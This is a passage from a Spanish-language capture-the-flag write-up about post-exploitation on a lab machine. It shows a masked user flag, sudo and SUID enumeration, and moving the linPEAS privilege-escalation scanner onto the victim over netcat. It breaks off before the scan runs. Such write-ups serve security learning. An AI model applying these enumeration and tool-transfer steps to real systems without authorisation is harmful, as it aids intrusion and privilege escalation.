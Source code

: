 # Post-explotación

Lo primero, vamos a leer la flag del usuario.

```plaintext
❯ cat user.txt
 b541bc24493b9747****************
```

Veamos si nuestro usuario puede correr algun binario con sudo.

```plaintext
❯ sudo -l
password: 
Sorry, user dwight may not run sudo on paper.
```

Resulta que no podemos ejecutar sudo, veamos si existe algún binario con permisos SUID que nos permita escalar privilegios.

```plaintext
❯ find / -perm -u=s 2>/dev/null
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
					---SKIP---
```

Seguimos sin tener algo que nos llame la atención, como no estamos encontrando algo interesante vamos a traernos [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) para que nos haga un reconocimiento más a fondo. 

Máquina víctima

```plaintext
❯ nc -nlvp 4444 > linpeas.sh
```

Nuestra máquina

```plaintext
❯ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
❯ nc 10.10.11.143 4444 < linpeas.sh
❯ CTRL + C
```

Ya nos hemos traido el binario de `linpeas` a la máquina víctima, vamos a asignarle permisos ejecución y vamos a ejecutarlo
